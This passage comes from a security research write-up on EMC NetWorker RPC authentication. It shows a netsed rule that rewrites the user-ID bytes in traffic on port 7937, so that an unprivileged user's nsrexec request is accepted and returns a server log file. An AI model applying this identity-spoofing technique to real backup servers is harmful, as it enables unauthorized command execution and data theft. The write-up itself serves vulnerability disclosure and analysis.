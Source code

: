 #### Live Patching RPC Requests (Windows Server)

If we send an RPC request directly to the remote server, we get a permission refused:

```
C:\Users\Jane Doe>set RCMD=nsr_render_log "C:\Program Files\EMC NetWorker\nsr\logs\daemon.raw"
C:\Users\Jane Doe>nsrexec -c 192.168.121.182
90475:nsrexecd: User 'uid1' cannot request a command execution.
```

If we send the request through our "patcher host", the remote server genuinely think we are a member of Administrators group and provide us with the file content we requested through RPC:

```
C:\Users\Jane Doe>set RCMD=nsr_render_log "C:\Program Files\EMC NetWorker\nsr\logs\daemon.raw"
C:\Users\Jane Doe>nsrexec -c 192.168.121.1
101040 22/02/21 13:32:43  1 3 0 2795517760 4001 0 networker-server nsrexecd RAP notice
--snip--
```

When the request goes through, we can see netsed patching the user identifier:

```
netsed tcp 7937 192.168.121.182 7937 s/%00%00%00%01%ff%ff%ff%fe%00%00%00%01%ff%ff%ff%fe/%00%00%00%00%ff%ff%ff%fe%00%00%00%01%ff%ff%ff%fe
netsed 1.2 by Julien VdG <julien@silicone.homelinux.org>
      based on 0.01c from Michal Zalewski <lcamtuf@ids.pl>
[*] Parsing rule s/%00%00%00%01%ff%ff%ff%fe%00%00%00%01%ff%ff%ff%fe/%00%00%00%00%ff%ff%ff%fe%00%00%00%01%ff%ff%ff%fe...
[+] Loaded 1 rule...
[+] Using fixed forwarding to 192.168.121.182,7937.
[+] Listening on port 7937/tcp.
[+] Got incoming connection from 192.168.121.30,65130 to 192.168.121.1,7937
[*] Forwarding connection to 192.168.121.182,7937
[+] Caught client -> server packet.
    Applying rule s/%00%00%00%01%ff%ff%ff%fe%00%00%00%01%ff%ff%ff%fe/%00%00%00%00%ff%ff%ff%fe%00%00%00%01%ff%ff%ff%fe...
[*] Done 1 replacements, forwarding packet of size 188 (orig 188).
[+] Caught server -> client packet.
[*] Forwarding untouched packet of size 36.
```

The key takeaway here is that oldauth implements **identification** rather than authentication.

### nsrauth Authentication Mechanism

The official documentation states that

> NetWorker hosts and daemons use the nsrauth mechanism to authenticate components and users, and to verify hosts. The nsrauth GSS authentication mechanism is a strong authentication that is based on the Secure Sockets Layer (SSL) protocol.

The nsrexecd service on each NetWorker host provides the component authentication services. The first time the nsrexecd process starts on a host, the process creates the following unique credentials for the host:

- 2048-bit RSA private key
- 1024-bit RSA private key, for backward compatibility
- self-signed certificate or public key
- NW Instance ID
- hostname

